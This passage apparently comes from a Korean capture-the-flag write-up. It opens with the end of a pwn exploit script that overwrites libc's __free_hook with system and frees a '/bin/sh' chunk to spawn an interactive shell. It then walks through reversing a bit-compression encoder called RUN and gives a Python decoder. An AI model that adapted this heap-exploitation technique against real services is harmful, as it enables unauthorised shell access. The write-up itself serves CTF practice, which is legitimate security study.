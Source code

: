```python
        writer = int(b'60'*8,16)
        update(writer, libc.symbols['__free_hook'])
        update(0xD0, libc.symbols['system'])
        insert(1,b'/bin/sh\x00',0x10)
        delete(1)

        p.interactive()
    except EOFError:
        p.close()
        continue
    except AssertionError:
        p.close()
        continue
```

## C. RUN - Reversing

바이너리를 분석해보면 아주 깔끔하게 인코딩 루틴만 존재한다.

인코딩 루틴은 크게 복잡하지 않았고 아래와 같았다.

1. 인풋 파일의 모든 비트를 `char[]`에 저장한다.
2. 해당 배열을 처음부터 돌면서 0이 나오면 반복되는 0의 수를 센다.
3. 반복되는 0의 수의 값을 c라고 했을 때, c의 비트 수 만큼 1을 output 버퍼에 추가한다.
4. c를 `little-endian`으로 output 버퍼에 추가한다.
5. 만약 1이 나오면 output 버퍼에 `00`을 추가한다.
6. 배열이 끝난 후엔, output 버퍼의 값을 온전한 바이트로 전환하기 위해 1로 패딩을 해준다.
7. `{input file name}.enc` 파일에 버퍼를 출력한다.

이처럼 단순한 비트 압축 방식으로 인코딩이 되어있으므로 간단한 파이썬 스크립트를 작성하여 풀이하였다.\
그런데 아주 사소한 실수를 발견하지 못해서 푸는 데에 생각보다 시간을 좀 많이 썼었다.

> Solution Script

```python
with open("flag.enc", "rb") as f:
    f.read(8)
    t= f.read()

b = ''.join(bin(i)[2:].zfill(8)[::-1] or "little-endian -> big-endian" for i in t)

g = ''
i = 0
c = 0
while i < len(b):
    c = 0
    try:
        while b[i + c] == '1':c += 1
    except:break

    assert(b[i + c] == '0')

    c += 1
    r = ''
    for j in range(c):
        r = b[i + c + j] + r

    assert(b[i+c+j] == '1' or c == 1),(b[i+c+j], c, b[i+c:i+c+c], b[i:i+c], g)

    g += '0' * int(r, 2) + '1'
    i += c * 2

print(len(g)&7)
r = [int(g[i:i+8][::-1] or "big-endian -> little-endian", 2) for i in range(0, len(g), 8)]
print(bytes(r)[:16])
```